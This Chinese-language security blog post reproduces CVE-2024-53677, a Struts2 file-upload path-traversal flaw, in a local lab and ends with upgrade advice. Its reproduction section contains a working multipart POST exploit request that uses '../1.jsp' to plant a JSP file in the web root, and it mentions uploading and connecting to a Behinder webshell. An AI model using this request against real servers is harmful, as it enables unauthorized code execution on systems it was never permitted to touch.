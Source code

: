 #  CVE-2024-53677：Apache Struts2文件上传逻辑漏洞S2-067   
原创 hexixi  Timeline Sec   2024-12-20 10:10  
  
>   
> 关注我们❤️，添加星标🌟，一起学安全！作者：hexixi@Timeline Sec 本文字数：2290阅读时长：3～5mins 声明：仅供学习参考使用，请勿用作违法用途，否则后果自负  
  
## 0x01 简介  
  
Apache Struts2 是一个流行的 Java Web 应用程序框架，广泛用于开发企业级应用。该漏洞出现在 Struts2 的文件上传功能中，由于缺乏对上传文件类型的严格验证，攻击者可以绕过文件类型过滤规则，上传恶意文件，从而在目标系统上执行任意代码或开展进一步的攻击。  
## 0x02 漏洞概述  
  
**漏洞编号：CVE-2024-53677**在远程服务器代码中使用了FileUploadInterceptor作为文件上传组件时，Apache Struts在文件上传逻辑上存在漏洞。攻击者可以利用该漏洞进行路径遍历，成功利用该漏洞可以使攻击者能够上传恶意文件，从而导致远程代码执行。  
## 0x03 利用条件  
  
**1）影响版本**Struts 2.0.0 - Struts 2.3.37（EOL）Struts 2.5.0 - Struts 2.5.33Struts 6.0.0 - Struts 6.3.0.2**2）****所需权限：**无权限要求  
  
**3）其他条件：**存在上传点且使用了FileUploadInterceptor作为文件上传组件  
## 0x04 环境搭建  
  
idea打开源码，选择本地tomcat，在Deployment中如图所示部署（环境源码：后台回复**HJ-S2-067**）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjhzP1e2nl43kjLKjseKC4jCEYnvVo2KTZxBPbS183rMXm1vZJ5ib2fbN05QTcOH7rO7zp4DopiaK2g/640?wx_fmt=png&from=appmsg "")  
  
运行，访问http://localhost:8080/untitled_war  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjhzP1e2nl43kjLKjseKC4jBFwOGibC7G7XsRyiaOREwRjY7iculmCV4xOVJAMv9XX8diaic6FnNmmHe9w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjhzP1e2nl43kjLKjseKC4jicCB3kx7kvTyDlE3HS9AavprpiaS1MTBG8OHNuJBsUVLkQYSYyQ8Pqyg/640?wx_fmt=png&from=appmsg "")  
## 0x05 漏洞复现  
  
利用poc上传一个测试jsp，利用路径穿越到web根目录  
```
POST /untitled_war/uploads.action HTTP/1.1
Host: IP:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://172.16.65.98:8080/untitled_war/
Content-Type: multipart/form-data; boundary=---------------------------376058448320617365003265882680
Content-Length: 529
Origin: http://192.168.0.116:8080
Connection: close
Cookie: JSESSIONID=953590EEDDD585B3CFE1A15E18C518C9
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------376058448320617365003265882680
Content-Disposition: form-data; name="Upload"; filename="1.txt"
Content-Type: application/octet-stream

<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<!DOCTYPE html>
<html>

<body>
    <p>test</p>
</body>
</html>


-----------------------------376058448320617365003265882680
Content-Disposition: form-data; name="uploadFileName[0]";

../1.jsp
-----------------------------376058448320617365003265882680--


```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjhzP1e2nl43kjLKjseKC4jrv69bnQIPVTqeM6ib2stdylaicLMC0d84RkFibIwBSU0CGiaDH9mCKUzEg/640?wx_fmt=png&from=appmsg "")  
  
可以被解析  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjhzP1e2nl43kjLKjseKC4jnZbiaDLLJmicFSluBZhvEFNMU8bBGy6lzbTibDLyycoUstfM7o7ujDqUA/640?wx_fmt=png&from=appmsg "")  
  
同样方式上传冰蝎马到web根目录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjhzP1e2nl43kjLKjseKC4jX0Fm2Cux1FDOgL82dMJ1EkZMCibl7SFWPw8vvhPfeASbybN0vsPTTTg/640?wx_fmt=png&from=appmsg "")  
  
成功连接webshell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjhzP1e2nl43kjLKjseKC4jn7OSUsKO9ehqJKbiaSpsrLncKdr4fcevzGMl6g8BQsAEUCq6o2J1iaIA/640?wx_fmt=png&from=appmsg "")  
## 0x06 修复方式  
  
将框架升级到官方发布的最新版本并且使用ActionFileUploadInterceptor作为文件上传组件。  
## 参考链接  
  
https://y4tacker.github.io/2024/12/16/year/2024/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%80%BB%E8%BE%91%E7%BB%95%E8%BF%87-CVE-2024-53677-S2-067/  
## 历史复现  
  
[CVE-2020-17530](https://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247487202&idx=1&sn=b3f8bca55d6d670fa74e83deec7ccaf1&scene=21#wechat_redirect)  
[CVE-2019-0230](https://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247486306&idx=1&sn=ca954f7391314edaa9e5f680488b9a41&scene=21#wechat_redirect)  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/VfLUYJEMVshRXmfDUFNGlTrAVB52XIXB6ibko0TibK4p8OGzoAXSoHSXvUwQk6FKTkNIslDL675W0QBOPfWmO6IA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
回复  
【加群】  
进入微信交流群回复  
【SRC群】进入SRC-QQ交流群回复  
【新人】领取新人学习指南资料回复  
【面试】获取渗透测试常见面试题  
  
回复  
【手册】  
获取原创技术PDF手册  
  
回复  
【合作】获取各类安全项目合作方式回复  
【帮会】付费加入SRC知识库学习回复  
【  
培训】  
获取TimelineSec创办的实战课程  
  
  
视频号：搜索  
TimelineSec  
  
官方微博：[#小程序://微博/tPbUYdN9EucSD4C]()  
  
  
哔哩哔哩：  
https://space.bilibili.com/52459  
‍1903  
  
  
  
❤  
  
觉得有用就点个赞吧！  
  
欢迎评论区留言讨论～  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OkhKF2m1syrmlAus2fxnsxZBk4oIuTvAVIaL6pKgic5DEa8ynqo44GUwNML3ggkqMpbE1fiaLYvpPzeBrQJCS5bA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
